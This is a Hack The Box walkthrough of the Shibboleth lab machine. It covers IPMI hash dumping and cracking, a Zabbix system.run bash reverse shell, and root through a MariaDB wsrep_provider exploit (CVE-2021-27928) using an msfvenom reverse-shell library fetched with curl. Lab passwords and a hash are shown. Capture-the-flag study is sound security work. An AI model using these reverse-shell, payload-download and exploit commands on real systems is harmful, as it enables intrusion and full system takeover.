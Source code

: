 # HTB - Shibboleth Walkthrough 🥷

> _“Don’t half-ass it. When you stop midway, you lose your momentum and make dumb mistakes.”_

### 🔍 Initial Recon

#### 🔎 TCP Scan

Only one port stood tall:

```
80/tcp open  http    syn-ack Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

So it’s likely a web-based entry point — either a web shell, RCE, or hopefully SSH later on (I like having a stable shell, sue me).

🔎 UDP Scan

```
623/udp open  asf-rmcp
```

Yup. That’s IPMI. A classic hole in many networks. Tucking that away for later…

### 🌐 Subdomain Discovery

```
ffuf -u http://shibboleth.htb -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18
```

Found:

```
monitor
monitoring
zabbix
```

All routed to the same interface/site. Interesting. Burp showed some app behavior, but nothing juicy yet.

### 🔁 Circle Back to UDP (623/IPMI)

Ref: [HackTricks on IPMI](https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

Used Metasploit to pull potential hashes:

```
msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.10.11.124
run
```

💥 Got a juicy hash:

```
Administrator:914fade8820100000830a3be05dcbec9310a8c18dfb7589f1e3de87662a5ca64ee24ff833aa0e9a1a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:bda78a132c0e95bc35fd085fbb136ac6dc62c762
```

Saved it and cracked it:

```
echo "<hash>" > hash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```

### 🔐 Zabbix Login

Tried creds on Zabbix from subdomain — and it worked.



***

### 🖥️ Reverse Shell via Zabbix

To execute a reverse shell, used Zabbix's `system.run[]` item:

```
echo "bash -i >& /dev/tcp/10.10.16.8/4444 0>&1" | base64
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

⚠️ _Without `nowait`, the session died in \~4 seconds. Annoying little gotcha._

Made the shell stable with:

```
script /dev/null -c bash
```

### 🔄 Priv Esc - Switching Users

Poked around. Found a second user: `ipmi-svc`. Tried the same password. It worked.

```
su ipmi-svc
# Password: ilovepumkinpie1

```

### 🧪 Enumeration & Dead Ends

* Checked `/etc/zabbix/zabbix_server.conf` for DB creds.
* Looked at sudo perms.
* Dug through config files.
* Nada. No root path in sight.\
  &#xNAN;_(Paused here because guests showed up. Came back later.)_



### 🤯 Moment of Clarity: MariaDB Version Exploit (CVE-2021-27928)

Should’ve thought of this sooner. It’s literally part of what I do at work — check SBOMs and versions.

Saw MySQL version was **10.3.25** → vulnerable.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4445 -f elf-so -o rev.so    
```

```
nc -lvnp 4445
```



```
curl http://10.10.16.8/rev.so --output rev.so
```



```
mysql -u zabbix -pbloooarskybluh
```

Then triggered:

```
SET GLOBAL wsrep_provider="/home/ipmi-svc/rev.so";
```

* and you get a shell as root

🔥 **ROOT SHELL DROPPED.**

### 🧠 Lessons Learned

* Don’t half-ass walkthroughs — finish what you start. Pausing mid-box kills flow and costs you time.
* IPMI still sucks.
* Zabbix + misconfigs = pwnage.





